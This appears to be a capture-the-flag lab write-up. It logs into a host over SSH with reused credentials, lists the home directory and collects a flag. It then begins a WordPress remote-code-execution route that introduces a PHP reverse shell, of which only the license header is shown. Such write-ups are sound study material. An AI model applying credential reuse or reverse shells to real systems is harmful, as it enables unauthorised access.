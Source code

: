 There are 2 ways that we can use to obtain the others flag. We use the same credentials to access the `ssh` service and we get in.

```bash
┌──(root㉿kali)-[/home/kali/Desktop/internship/hidrogen]
└─# ssh john@hydrogen.co
john@hydrogen.co's password: 
Linux hydrogrencorp 3.2.0-6-amd64 #1 SMP Debian 3.2.102-1 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Oct 18 07:53:00 2023 from 192.168.22.13

#######################################
### Welcome to Hydrogen Corporation ###
#######################################

john@hydrogrencorp:~$ ls -la
total 48
drwxr-xr-x 3 john john  4096 Oct 17 10:07 .
drwxr-xr-x 3 root root  4096 Jan 17  2019 ..
-rw------- 1 john john   505 Oct 18 08:17 .bash_history
-rw-r--r-- 1 john john   220 Jan 17  2019 .bash_logout
-rw-r--r-- 1 john john  3562 Jan 19  2019 .bashrc
-r-------- 1 john john    39 Jan 18  2019 flag3.txt
drwx------ 2 john john  4096 Oct 17 03:28 .gnupg
-rw------- 1 john john   532 Feb 20  2019 .lesshst
-rw-r--r-- 1 john john     0 Oct 17 05:27 nc
-rw-r--r-- 1 john john   675 Jan 17  2019 .profile
-rw------- 1 john john 12288 Oct 17 10:08 .swp
john@hydrogrencorp:~$ 

```

Then we can collect the `flag3.txt` right away

`flag{b4270e25c9fadba2b79e18055141d882}`
### First Way
#### Foothold - RCE

Back to the WordPress, the best practice is we need to try any function of the website server, and try to understand it. Maybe it is vulnerable to file upload or change of file content or anything that can get us the remote code execution. Here is some writeup that may similar to this [https://medium.com/secjuice/apocalyst-ctf-writeup-ccf9e2afb145](https://medium.com/secjuice/apocalyst-ctf-writeup-ccf9e2afb145)

```bash
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
```